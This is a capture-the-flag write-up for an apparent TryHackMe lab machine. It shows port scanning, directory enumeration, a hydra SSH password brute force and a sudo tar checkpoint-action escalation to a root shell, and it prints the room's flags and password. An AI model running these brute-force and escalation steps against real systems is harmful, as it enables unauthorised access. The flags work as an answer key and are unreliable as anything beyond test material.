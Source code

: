 **Tristan Gomez**

```
You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims!
Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future! 

```

Find open ports on the machine
```
┌──(gomez22㉿DESKTOP-V2K8SJ4)-[~]
└─$ sudo nmap -sS 10.10.115.79
[sudo] password for gomez22: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-14 12:04 PDT
Nmap scan report for 10.10.115.79
Host is up (0.16s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

```
`
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x .php -u http://10.10.115.79
`
`/images               (Status: 301) [Size: 313] [--> http://10.10.115.79/images/]`


```

<html>

<style>
h3 {text-align: center;}
p {text-align: center;}
.img-container {text-align: center;}
</style>

<div class='img-container'>
	<img src="/images/crew.jpg" tag alt="Crew Picture" style="width:1000;height:563">
</div>

<body>
<h3>Spike:"..Oh look you're finally up. It's about time, 3 more minutes and you were going out with the garbage."</h3>

<hr>

<h3>Jet:"Now you told Spike here you can hack any computer in the system. We'd let Ed do it but we need her working on something else and you were getting real bold in that bar back there. Now take a look around and see if you can get that root the system and don't ask any questions you know you don't need the answer to, if you're lucky I'll even make you some bell peppers and beef."</h3>

<hr>

<h3>Ed:"I'm Ed. You should have access to the device they are talking about on your computer. Edward and Ein will be on the main deck if you need us!"</h3>

<hr>

<h3>Faye:"..hmph.."</h3>

</body>
</html>
```
`Spike, Jet, Ed, Faye`


Who wrote the task list? 
`lin`
-Found locks.txt with passwords
-found task.txt mentioning lin


What service can you bruteforce with the text file found?
-ssh

What is the users password? 
`$ hydra -l lin -P locks.txt ssh://10.10.115.79`  
```[22][ssh] host: 10.10.115.79   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-14 12:47:27
```
`RedDr4gonSynd1cat3`

user.txt
```
lin@bountyhacker:~/Desktop$ cat user.txt
THM{CR1M3_SyNd1C4T3}
```

```
sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

```

```
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
```

root.txt
```
# cat root.txt
THM{80UN7Y_h4cK3r}

```

